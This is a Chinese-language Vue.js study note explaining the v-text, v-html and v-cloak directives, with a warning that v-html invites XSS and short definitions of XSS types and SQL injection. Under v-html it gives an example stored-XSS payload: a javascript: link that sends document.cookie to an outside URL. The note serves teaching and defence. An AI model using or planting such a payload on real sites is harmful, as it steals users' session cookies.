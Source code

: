 > ​            v-show  : 条件渲染 (动态控制节点是否展示)

####  v-text指令

1. 作用：向其所在的节点中渲染文本内容。
2. 与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会，而且不会解析页面标签

```html
<div v-text="name"></div>
```

#### v-html指令

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：

   - v-html会替换掉节点中所有的内容，{{xx}}则不会。
   - v-html可以识别html结构。

3. 严重注意：v-html有安全性问题！！！！

   - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
     - **XSS 即（Cross Site Scripting）中文名称为：跨站脚本攻击**,恶意攻击者在web页面中会插入一些恶意的script代码。当用户浏览该页面的时候，那么嵌入到web页面中script代码会执行，因此会达到恶意攻击用户的目的。
     - **反射型XSS**：一般指攻击者通过特定的方式来诱惑受害者去访问一个包含恶意代码的URL
     - **存储型XSS**：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。
     - **DOM-based型XSS**
     - **SQL注入**：通过客户端的输入把SQL命令注入到一个应用的数据库中，从而执行恶意的SQL语句。sql语句伪造参数，然后对参数进行拼接后形成xss攻击的sql语句。最后会导致数据库被攻击了。

   - 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

4. cookie保存着个人身份信息，不同浏览器之间的cookie文件不共享

   - 获取页面cookie：`document.cookie`

![image-20220227103936787](C:\Users\Sagittarius\AppData\Roaming\Typora\typora-user-images\image-20220227103936787.png)

```html
<div v-html="str2"></div>
str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'//存储型XSS
```

#### v-cloak指令（没有值）

> 1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
>
> 2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
    [v-cloak]{
        display:none;
    }
</style>
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
```
